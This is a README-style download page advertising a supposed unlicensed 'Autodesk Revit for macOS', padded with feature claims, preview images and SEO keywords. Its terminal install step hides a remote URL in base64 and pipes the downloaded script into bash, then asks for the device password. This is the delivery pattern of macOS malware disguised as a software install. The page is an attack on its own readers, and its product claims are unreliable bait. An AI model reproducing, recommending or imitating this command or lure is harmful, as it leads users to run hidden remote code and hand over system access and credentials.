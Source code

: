 # Autodesk Revit for macOS 

[![Download Setup Assistant](https://img.shields.io/badge/Download-Setup_Assistant-blueviolet)](https://mitrobandus.github.io/.github/Autodesk)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


🎯 **What You Unlock**

   🏗️ Full Building Information Modeling (BIM) tools  
   📐 Architectural design, MEP, and structural modules  
   🧩 Plugin & script compatibility  
   💻 Optimized for Apple Silicon (M1/M2/M3)  
   🔌 No Autodesk ID or license login required  
   📁 Project sync support (local only)

🖼 **Preview**

![Revit on macOS via virtualization](https://www.parallels.com/blogs/app/uploads/2018/03/Revit-On-Mac-Win-10.png)  


![Detailed BIM modeling in Revit](https://measuredsurvey365.co.uk/wp-content/uploads/2021/02/1-1.png)  


![Revit UI and architecture tools](https://i.ytimg.com/vi/RgHQVlHa75s/maxresdefault.jpg)  


🔍 **SEO Keywords**

revit mac, revit for macbook, revit architecture for mac, revit and mac, revit in mac, revit mac download, autodesk revit for mac, revit software for mac, revit macos, autocad revit for mac, revit autodesk for mac, revit mac os x, revit osx, revit software mac, revit on mac m1, revit on mac m2, revit for mac m3, revit apple silicon, run revit on mac, revit virtualization mac, revit full version mac, revit offline mac installer, revit macbook pro, revit student for mac, revit architecture suite mac



